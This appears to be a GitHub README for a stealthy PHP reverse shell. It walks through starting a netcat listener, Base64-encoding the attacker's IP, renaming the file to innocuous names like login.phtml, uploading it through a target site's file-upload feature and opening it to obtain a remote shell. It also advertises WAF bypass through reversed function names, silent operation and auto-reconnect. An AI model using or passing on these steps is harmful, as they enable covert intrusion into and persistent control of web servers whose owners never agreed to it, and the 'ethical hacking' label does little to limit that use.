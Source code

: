 ## PHP Reverse Shell (Powerful & Stealthy)
This is a powerful and stealthy PHP reverse shell designed for ethical hacking and penetration testing.
It quietly connects back to your machine reliably without showing any output.

## Features
- IP and shell command are Base64 encoded for stealth and easy customization

- Function names are reversed to bypass WAF and security filters

- Silent mode — no output displayed to avoid detection

- Automatically reconnects if connection drops

- Can run as a background daemon (if server supports)

- Works on most PHP-enabled servers

- Supports tunneling services like Cloudflared, Ngrok, Serveo, and others

- Upload with `.phtml` extension to bypass some filters

  ## How to Use
**1. Start a listener on your machine**
```bash
nc -lvnp 4444
```
**2. Encode your IP or hostname in Base64**
Use this simple command:

```bash
echo "your_ip_or_hostname" | base64
```
**Example:**
```bash
echo "192.168.1.5" | base64
```
**Copy the output and replace the $ip_b64 value in the PHP script.**

**3. Update the PHP script**
Change these lines with your Base64 encoded IP/hostname and port:

```php
$ip_b64 = 'YOUR_BASE64_ENCODED_IP_OR_HOSTNAME';
$port = YOUR_LISTENER_PORT;
```
**4. Rename the file and upload
Rename the file to something less suspicious, for example:**

- `login.phtml`

- `avatar.phtml`

- `update.phtml`

  Using the `.phtml` extension helps the file run on some servers that block `.php`.

 Upload this file to the target website where file uploads are allowed.

**5. Trigger the reverse shell**
Open the uploaded file in a browser:

```arduino
http://target.com/uploads/login.phtml
```
Once opened, your listener will get a reverse shell connection.
